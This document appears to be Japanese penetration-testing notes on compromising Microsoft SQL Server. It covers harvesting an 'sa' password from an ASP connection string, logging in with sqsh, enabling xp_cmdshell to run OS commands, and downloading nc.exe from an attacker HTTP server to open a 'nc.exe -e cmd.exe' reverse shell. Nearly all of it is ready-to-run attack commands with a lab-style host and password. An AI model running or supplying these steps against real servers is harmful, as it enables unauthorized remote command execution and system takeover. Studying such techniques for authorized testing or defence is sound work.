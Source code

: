 ### SQLServer

+ DB接続ソースなどから認証情報を取得できる場合がある

  ```
  set cnn = server.createobject("ADODB.Connection")
  cnn.open "PROVIDER=SQLOLEDB;DATA SOURCE=RALPH;User ID=sa;PWD=poiuytrewq;DATABASE=bankdb"
  ```

  ※saが管理者ユーザであることが多い

+ SQLserverへのログイン

  ```bash
  sqsh -S 10.11.1.31 -U sa -P poiuytrewq
  ```

  ```bash
  # db一覧
  select name from sys.databases;
  # 実行
  go
  use master;
  go
  # テーブル一覧
  select name from sysobjects where xtype = 'U'
  go
  
  # xp_cmdshellの有効化
  EXEC sp_configure 'show advanced options', 1
  RECONFIGURE
  go
  Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
  (return status = 0)
  1> EXEC sp_configure 'xp_cmdshell', 1
  2> RECONFIGURE
  3> go
  Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
  (return status = 0)
  EXEC xp_cmdshell 'net user'
  ```

  https://qiita.com/yakumomo/items/e12d91beb7d7784ab1fa

  https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet

+ nc.exeを配送してリバースシェルを取得

  ```bash
  python -m http.server 80 -d /usr/share/windows-resources/binaries/
  ```

  ```
  EXEC xp_cmdshell "powershell.exe wget http://192.168.119.156/nc.exe -OutFile nc.exe"
  go
  EXEC xp_cmdshell  "nc.exe -e cmd.exe 192.168.119.156 4444"
  go
  ```

  

